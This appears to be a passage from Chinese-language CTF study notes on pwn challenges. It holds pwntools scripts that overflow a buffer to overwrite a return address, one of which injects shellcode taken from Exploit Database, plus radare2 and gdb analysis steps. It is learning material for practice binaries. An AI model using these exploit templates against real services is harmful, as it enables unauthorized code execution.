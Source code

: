 ```python=
r = remote('[ip位置],[port]')

r.recvuntil('\n')
r.sendline(b'a'*0x38 + p64(0x004006b6))

r.interactive()
```
- python3 exploit_luck.py
---
### 章元 pwn 9
- r2 ./[檔案]
- aa
- afl
- s main
- vv
- gdb ./[檔案]
- b main 
- r
- vmmap
- vim ./[檔案]
```python=
from pwn import *

r = remote('[ip位置],[port]')

#Exploit Database:https://www.exploit-db.com/shellcodes
shellcode = '[在Exploit Database Shellcodes裡面找到可用字串]'

r.recvuntil(':')
r.sendline(shellcode)

r.recvuntil(':')
r.sendline(b'a'*0x28 + p64(0x601080))

r.interactive()
```
- python3 exploit_luck.py
---

### Programmer's Party
- ln -s ./ezreverse ./ezreverse.lnk 製造連結
    - ln:建立
    - S:捷徑
